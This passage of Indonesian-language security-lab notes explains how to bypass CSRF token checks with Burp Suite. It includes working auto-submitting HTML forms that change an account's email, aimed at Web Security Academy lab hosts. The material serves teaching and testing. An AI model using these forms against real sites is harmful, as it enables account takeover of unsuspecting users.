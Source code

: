 ```markdown
		<input type="text" name="email" value="rad1zly@hack.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Kemudian kirim html tersebut atau buka pada website dan klik submit.
6. Lihat apa yang terjadi pada akun tersebut.
```

### Metode Bypass 2: Menghapus parameter CSRF dari request `POST`.

```markdown
Skenario : Validasi terhadap CSRF token bergantung terhadap ada tidaknya token tersebut di request.

1. Lakukan interaksi terhadap beberapa fungsi dan Intercept request yang ada.
2. Kirim request tersebut ke repeater.
3. Hapus semua parameter csrf yang ada pada request, lalu klik Generate CSRF PoC.
4. Edit sesuai dengan kebutuhan, sebagai contoh:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
	<form method="POST" action="https://ac8a1fbd1e6d76ae806817f900d50032.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="rad1zly@hack.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Kemudian kirim html tersebut atau buka pada website dan klik submit.
6. Lihat apa yang terjadi pada akun tersebut.
```

### Bypass Method - 3: Generate CSRF Token sendiri. 

```markdown
Skenario : Token CSRF tidak tersambung dengan sesi pengguna.

1. Lakukan interaksi terhadap beberapa fungsi dan Intercept request yang ada.
2. Generate CSRF PoC.
3. Copy kode yang di generate ke sebuah file html dan hapus session token (bila ada).
4. Drop request yang ada pada burpsuite.
5. Kemudian kirim html tersebut atau buka pada website dan klik submit.
6. Lihat apa yang terjadi pada akun tersebut.

Contoh Kode CSRF:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
	<form method="POST" action="https://acd81f251e0c762980c31ae600c70041.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="rad1zly@hack.com">
		<input type="text" name="csrf" value="NqdmYFyfHgQl8JWLKd7YTOC24Tqdedpw">
	</form>
```